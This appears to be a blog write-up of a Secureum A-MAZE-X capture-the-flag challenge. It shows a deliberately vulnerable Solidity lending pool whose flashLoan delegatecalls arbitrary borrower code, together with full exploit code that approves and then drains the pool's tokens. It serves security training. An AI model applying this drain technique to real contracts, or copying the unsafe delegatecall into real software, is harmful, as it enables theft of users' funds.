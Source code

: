 ```yaml
---
layout: post
title: Secureum A-MAZE-X Stanford - Challenge 1
date:  2022-09-13
tags: Secureum
---
```

[Secureum A-MAZE-X Stanford Github repo](https://github.com/secureum/DeFi-Security-Summit-Stanford) 

## Challenge 1: What a nice Lender Pool!
Secureum has raised a lot of Ether and decided to buy a bunch of InSecureumTokens ($ISEC) in order to make them available to the community via flash loans. This is made possible by means of the InSecureumLenderPool contract. <br />

📌 Upon deployment, the InSecureumToken contract mints an initial supply of 10 $ISEC to the contract deployer. <br />

📌 The InSecureumLenderPool contract operates with $ISEC.<br />

📌 The contract deployer transfers all of their $ISEC to the InSecureumLenderPool contract.<br />

📌 The idea is that anyone can deposit $ISECs to enlarge the pool's resources.<br />

Will you be able to steal the $ISECs from the InSecureumLenderPool? 😈😈😈

## Contract
`InSecureumLenderPool.sol` ( The contracts that we will hack. )
``` solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {Address} from "@openzeppelin/contracts/utils/Address.sol";
import {SafeERC20} from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";

// Some ideas for this challenge were taken from damn vulnerable defi
contract InSecureumLenderPool {
    using Address for address;
    using SafeERC20 for IERC20;

    /// @dev Token contract address to be used for lending.
    //IERC20 immutable public token;
    IERC20 public token;
    /// @dev Internal balances of the pool for each user.
    mapping(address => uint) public balances;

    // flag to notice contract is on a flashloan
    bool private _flashLoan;

    /// @param _token Address of the token to be used for the lending pool.
    constructor (address _token) {
        token = IERC20(_token);
    }

    /// @dev Deposit the given amount of tokens to the lending 
    ///      pool. This will add _amount to balances[msg.sender] and
    ///      transfer _amount tokens to the lending pool.
    /// @param _amount Amount of token to deposit in the lending pool
    function deposit(uint256 _amount) external {
        require(!_flashLoan, "Cannot deposit while flash loan is active");
        token.safeTransferFrom(msg.sender, address(this), _amount);
        balances[msg.sender] += _amount;
    }
    
    /// @dev Withdraw the given amount of tokens from the lending pool.
    function withdraw(uint256 _amount) external {
        require(!_flashLoan, "Cannot withdraw while flash loan is active");
        balances[msg.sender] -= _amount;
        token.safeTransfer(msg.sender, _amount);
    }   

    /// @dev Give borrower all the tokens to make a flashloan.
    ///      For this with get the amount of tokens in the lending pool before, then we give
    ///      control to the borrower to make the flashloan. After the borrower makes the flashloan
    ///      we check if the lending pool has the same amount of tokens as before.
    /// @param borrower The contract that will have access to the tokens
    /// @param data Function call data to be used by the borrower contract.
    function flashLoan(
        address borrower,
        bytes calldata data
    )
        external
    {
        uint256 balanceBefore = token.balanceOf(address(this));
        
        _flashLoan = true;
        
        borrower.functionDelegateCall(data);

        _flashLoan = false;

        uint256 balanceAfter = token.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }
}
```
`InSecureumToken.sol`
``` solidity 
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.14;

import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract InSecureumToken is ERC20 {

    // Decimals are set to 18 by default in `ERC20`
    constructor(uint256 _supply) ERC20("InSecureumToken", "ISEC") {
        _mint(msg.sender, _supply);
    }

}
```

## Writeup
1. Finish the `Exploit` contract in `test/Challenge1.t.sol`.
    ``` solidity
    contract Exploit {
        function flashloanCallback(IERC20 token, address testAddress) public {
            token.approve(testAddress, type(uint256).max);
        }
    }
    ```
2. Add below code to `testChallenge` function.
    ``` solidity
    Exploit exploit = new Exploit();

    target.flashLoan(
        address(exploit),
        abi.encodeWithSelector(
            Exploit.flashloanCallback.selector,
            token, 
            player
        )
    );

    IERC20(token).transferFrom(address(target), player, IERC20(token).balanceOf(address(target)));

    ```
3. Run `forge test --match-path test/Challenge1.t.sol`

## Reference 
[Function selector](https://solidity-by-example.org/function-selector/)
[Ventral.digital](https://ventral.digital/posts/2022/8/27/secureum-a-maze-x-stanford-ctf)